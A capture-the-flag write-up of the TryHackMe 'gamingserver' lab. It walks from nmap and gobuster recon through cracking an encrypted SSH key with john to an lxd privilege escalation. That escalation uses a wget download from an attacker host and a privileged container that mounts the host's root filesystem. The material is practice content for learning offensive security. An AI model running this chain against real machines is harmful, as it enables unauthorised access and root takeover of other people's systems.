 # recon
- nmap
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
```
- gobuster
```
/about.php (Status: 200)
/about.html (Status: 200)
/index.html (Status: 200)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

- port 80 httpserver
  - index.html: `<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->`
  - where is `/arhives.html`
  - /uploads/dict.lst: a password list
  - /secret: contain RSA key encrypted with AES


# foot hold
so as you can see, we got a password list + ssh key (RSA) encrypted with AES. I guess one of the password in the list (`/uploads/dict.lst`) can be use to decrypt the ssh key. We can then use ssh key to gain foot hold one victim server.

let start with convert encrypted ssh key to a format that john can understand. then use john to crack the password. we will use as our password list.
```console
bibo318@parrot:~/THM/gamingserver$ sudo python /usr/share/john/ssh2john.py secretKey s > ssh2john.txt
bibo318@parrot:~/THM/gamingserver$ sudo john --wordlist=dict.lst ssh2john.txt
.
.
Press 'q' or Ctrl-C to abort, almost any other key for status
<something>          (secretKey)
1g 0:00:00:00 DONE (2020-09-02 14:47) 100.0g/s 22200p/s 22200c/s 22200C/s 2003..starwars
```
now lets use to `openssl` to decrypt `secretKey`
```console
bibo318@parrot:~/THM/gamingserver$ openssl rsa -in secretKey -out gamingserver_key
Enter pass phrase for secretKey:
writing RSA key
```
what are we waiting for let ssh to the victim server. Grab the user flag
```console
bibo318@parrot:~/THM/gamingserver$ ssh john@$IP -i gamingserver_key
Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ ls
user.txt
```
# root
```console
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
lxd !! I have seen it so many time. if you dont know what LXD is pls do some research by yourself, Also check this for step by step lxd exploit [link](https://www.hackingarticles.in/lxd-privilege-escalation/)


so what are we waiting for. let get root!!

```console
john@exploitable:~$ wget http://<kali IP>:8080/myalpine.tar.gz
2020-09-02 19:04:23 (1.01 MB/s) - ‘myalpine.tar.gz’ saved [3199169/3199169]
john@exploitable:~$ ls
myalpine.tar.gz  user.txt
john@exploitable:~$ lxc image import myalpine.tar.gz --alias kurohat
Image imported with fingerprint: 19d278b8c78857a750fb2589c3addb3fa4a4b11fbb2c2b28275400e3a60fbb79
john@exploitable:~$ lxc init kurohat ignite -c security.privileged=true
Creating ignite
john@exploitable:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:~$ lxc start ignite 
john@exploitable:/mnt$ lxc exec ignite /bin/sh # bash will also work but this server do not have /bin/bash
~ # id
uid=0(root) gid=0(root)
```
now let move to the mount poin `/mnt/root/` and grab the root flag